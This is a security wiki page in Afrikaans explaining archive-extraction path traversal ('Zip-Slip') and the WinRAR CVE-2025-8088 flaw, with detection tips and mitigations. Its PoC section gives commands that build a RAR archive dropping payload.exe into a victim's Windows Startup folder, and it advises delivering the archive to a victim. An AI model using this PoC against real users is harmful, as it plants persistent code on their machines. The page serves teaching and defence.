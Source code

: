 # Argief Uittrekking Pad Traversal ("Zip-Slip" / WinRAR CVE-2025-8088)

{{#include ../banners/hacktricks-training.md}}

## Oorsig

Baie argief formate (ZIP, RAR, TAR, 7-ZIP, ens.) laat elke inskrywing toe om sy eie **interne pad** te dra. Wanneer 'n uittrekking hulpmiddel blindelings daardie pad eerbiedig, sal 'n vervaardigde lêernaam wat `..` of 'n **absolute pad** (bv. `C:\Windows\System32\`) bevat, buite die gebruiker-gekose gids geskryf word. Hierdie klas kwesbaarheid is algemeen bekend as *Zip-Slip* of **argief uittrekking pad traversie**.

Gevolge wissel van die oorskryding van arbitrêre lêers tot die direkte bereiking van **afgeleë kode uitvoering (RCE)** deur 'n payload in 'n **auto-run** ligging soos die Windows *Startup* gids te laat val.

## Wortel Oorsaak

1. Aanvaller skep 'n argief waar een of meer lêer koppe bevat:
* Relatiewe traversie volgordes (`..\..\..\Users\\victim\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\payload.exe`)
* Absolute pades (`C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\payload.exe`)
2. Slachtoffer trek die argief uit met 'n kwesbare hulpmiddel wat die ingebedde pad vertrou in plaas daarvan om dit te saniteer of om uittrekking onder die gekose gids af te dwing.
3. Die lêer word in die aanvaller-beheerde ligging geskryf en uitgevoer/gelai die volgende keer wanneer die stelsel of gebruiker daardie pad aktiveer.

## Regte-Wêreld Voorbeeld – WinRAR ≤ 7.12 (CVE-2025-8088)

WinRAR vir Windows (insluitend die `rar` / `unrar` CLI, die DLL en die draagbare bron) het gefaal om lêernames tydens uittrekking te valideer. 'n Kwaadwillige RAR argief wat 'n inskrywing soos bevat:
```text
..\..\..\Users\victim\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.exe
```
sal eindig **buite** die geselekte uitvoer gids en binne die gebruiker se *Startup* gids. Na aanmelding voer Windows outomaties alles wat daar teenwoordig is uit, wat *volhoubare* RCE bied.

### Skep 'n PoC Argief (Linux/Mac)
```bash
# Requires rar >= 6.x
mkdir -p "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup"
cp payload.exe "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
rar a -ep evil.rar evil/*
```
Options used:
* `-ep`  – stoor lêerpaaie presies soos gegee (moet **nie** leiende `./` snoei nie).

Lewer `evil.rar` aan die slagoffer en instrueer hulle om dit met 'n kwesbare WinRAR-bou te onttrek.

### Geobserveerde Exploitatie in die Wild

ESET het RomCom (Storm-0978/UNC2596) spear-phishing veldtogte gerapporteer wat RAR-argiewe aangeheg het wat CVE-2025-8088 misbruik om pasgemaakte agterdeure te ontplooi en ransomware-operasies te fasiliteer.

## Opsporingwenke

* **Statiese inspeksie** – Lys argiefinskrywings en merk enige naam wat `../`, `..\\`, *absolute paaie* (`C:`) of nie-kanonical UTF-8/UTF-16 kodering bevat.
* **Sandbox onttrekking** – Decomprimeer in 'n weggooibare gids met 'n *veilige* onttrekker (bv. Python se `patool`, 7-Zip ≥ nuutste, `bsdtar`) en verifieer dat die resulterende paaie binne die gids bly.
* **Eindpuntmonitering** – Laat weet oor nuwe uitvoerbare lêers wat kort na 'n argief deur WinRAR/7-Zip/etc. geopen word, in `Startup`/`Run` plekke geskryf word.

## Versagting & Versterking

1. **Werk die onttrekker op** – WinRAR 7.13 implementeer behoorlike pad-sanitizering. Gebruikers moet dit handmatig aflaai omdat WinRAR 'n outo-opdateringsmeganisme ontbreek.
2. Onttrek argiewe met die **“Ignore paths”** opsie (WinRAR: *Extract → "Do not extract paths"*) wanneer moontlik.
3. Open onbetroubare argiewe **binne 'n sandbox** of VM.
4. Implementeer toepassingswitlyste en beperk gebruikers se skrywe toegang tot outo-loop gidses.

## Addisionele Aangetaste / Historiese Gevalle

* 2018 – Massiewe *Zip-Slip* advies deur Snyk wat baie Java/Go/JS biblioteke beïnvloed.
* 2023 – 7-Zip CVE-2023-4011 soortgelyke traversering tydens `-ao` samesmelting.
* Enige pasgemaakte onttrekkingslogika wat versuim om `PathCanonicalize` / `realpath` voor skryf aan te roep.

## Verwysings

- [BleepingComputer – WinRAR zero-day exploited to plant malware on archive extraction](https://www.bleepingcomputer.com/news/security/winrar-zero-day-flaw-exploited-by-romcom-hackers-in-phishing-attacks/)
- [WinRAR 7.13 Changelog](https://www.win-rar.com/singlenewsview.html?&L=0&tx_ttnews%5Btt_news%5D=283&cHash=a64b4a8f662d3639dec8d65f47bc93c5)
- [Snyk – Zip Slip vulnerability write-up](https://snyk.io/research/zip-slip-vulnerability)

{{#include ../banners/hacktricks-training.md}}
